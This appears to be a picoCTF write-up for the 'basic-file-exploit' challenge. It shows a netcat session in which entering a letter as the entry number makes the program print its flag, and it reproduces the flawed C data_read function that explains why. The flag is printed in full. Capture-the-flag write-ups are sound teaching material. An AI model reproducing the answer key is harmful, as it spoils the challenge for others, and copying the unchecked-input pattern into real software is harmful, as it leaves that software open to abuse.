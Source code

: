 # basic-file-exploit
## Description
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!
Connect to the program with netcat:  
`$ nc saturn.picoctf.net 55825`  
The program's source code with the flag redacted can be downloaded [here](program-redacted.c).
## Hints
1. Try passing in things the program doesn't expect. Like a string instead of a number.
## Solution
1. Connect to the server and pay attention to the hint.
```console
% nc saturn.picoctf.net 55825
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
hello, world
hello, world
Please enter the length of your data:
12
12
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
hello, world
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
a
a
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```
2. The `data_read` function is the key, specifically where it converts the entry number into an integer. The `strtol` function returns `0` if it can not convert, such as a letter. You could even enter `0` as an entry number and get the same result.
```c
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```
